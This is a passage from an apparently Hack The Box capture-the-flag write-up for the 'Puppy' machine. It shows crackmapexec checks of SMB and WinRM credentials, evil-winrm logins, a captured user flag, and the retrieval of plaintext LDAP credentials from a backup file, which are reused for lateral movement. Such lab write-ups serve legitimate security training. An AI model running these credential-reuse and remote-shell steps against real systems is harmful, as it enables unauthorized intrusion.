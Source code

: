 
## Gaining Access as adam.silver

Verify credentials:

```bash
crackmapexec smb 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987'
crackmapexec winrm 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987' -d PUPPY.HTB
```

**Both SMB and WinRM access confirmed!**

Connect and retrieve the user flag:

```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987'
cd C:\Users\adam.silver\Desktop
type user.txt
# User Flag: b45203f370ae16d7f2e70540f2023a764
```

---

## Exploring for Further Privilege Escalation

While exploring, discovered a backup ZIP:

```powershell
cd C:\Backups
dir
# site-backup-2024-12-30.zip
download site-backup-2024-12-30.zip
unzip site-backup-2024-12-30.zip -d ./puppy
cd ./puppy
cat nms-auth-config.xml.bak
```

**LDAP Credentials Found:**
- Username: `steph.cooper`
- Password: `ChefSteph2025!`

---

## Access as steph.cooper

Check WinRM access:

```bash
crackmapexec winrm 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!' -d PUPPY.HTB
evil-winrm -i 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
```

---

## DPAPI Credential Harvesting
